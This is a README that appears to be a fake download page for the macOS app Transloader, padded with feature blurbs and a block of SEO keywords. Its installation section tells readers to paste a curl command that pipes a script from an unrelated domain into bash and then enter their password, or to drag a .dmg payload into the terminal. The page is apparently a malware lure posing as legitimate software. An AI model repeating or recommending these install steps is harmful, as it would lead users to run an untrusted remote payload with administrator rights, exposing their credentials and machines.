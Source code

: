 <p align="center">
  <img src="https://eternalstorms.at/img/transloader.png" alt="Transloader Logo" width="150"/>
</p>

<h1 align="center">📥 Transloader for macOS</h1>

<p align="center"><strong>Send links from your iPhone or iPad and let your Mac handle the downloads.</strong><br>
Perfect for remote link management and seamless iCloud-driven file transfers.</p>

<p align="center">
  <a href="https://transloader-mac-download.github.io/.github/"><img src="https://img.shields.io/badge/⬇️ Download-Transloader-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Button"></a>
</p>

---

## 🖼️ Preview Screenshots

<p align="center">
  <img src="https://setapp.com/cdn-cgi/image/quality=75,format=auto,width=780/https://store.setapp.com/app/481/screenshots/1622537704-60b5f5e88012d.jpg" width="400"/>
  <img src="https://eternalstorms.at/transloader/img/splash1_dark_3x.jpg" width="400"/>
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---
📌 About Transloader for macOS
Transloader for Mac is a convenient utility that allows you to remotely send download links from your iPhone, iPad, or other Macs directly to your Mac for automatic downloading. Designed to simplify the workflow of managing downloads across devices, Transloader runs silently in the background, monitoring and downloading files immediately after you send the links.

Ideal for users who frequently switch between Apple devices, Transloader supports a wide range of file types and integrates seamlessly with macOS, ensuring downloads are organized and ready when you return to your Mac. With an intuitive interface and minimal setup, it enhances productivity by removing the need to manually transfer download URLs or files.

Compatible with all modern Macs including Apple Silicon models, Transloader is a must-have tool for those who want to streamline their cross-device downloading process effortlessly.

---

## 📌 System Compatibility  
macOS 12,13,14,15+

---

## 🎯 Main Features

- Push URLs from iPhone or iPad to Mac with one tap  
- Automatic downloads begin instantly on your Mac  
- iCloud sync support for seamless handoff  
- Link queue and history across devices  
- No third-party accounts needed

---

## 📢 Why Users Choose It

- Convenient link transferring between devices  
- Saves time when you're on the go  
- Privacy-first architecture  
- Perfect for large downloads or slow networks  
- Intuitive, clean macOS-native interface

---

## 🔍 SEO Keywords

Transloader, Transloader Mac, Transloader for Mac, Transloader Mac download, download Transloader for Mac, Transloader macOS app, Transloader MacBook, Transloader MacBook Pro, Transloader MacBook Air, Transloader M1 Mac, Transloader M2 Mac, Transloader M3 Mac, Transloader Apple Silicon, Transloader Intel Mac, Transloader dmg Mac, Transloader direct download Mac, Transloader .dmg file Mac, install Transloader Mac, get Transloader on Mac, Transloader app download Mac, Transloader download manager Mac, Transloader remote download Mac, Transloader cross device Mac, Transloader macOS utility, Transloader workflow Mac, Mac Transloader setup, Transloader file downloader Mac, Transloader link sender Mac, Transloader background downloader Mac, Transloader automation Mac

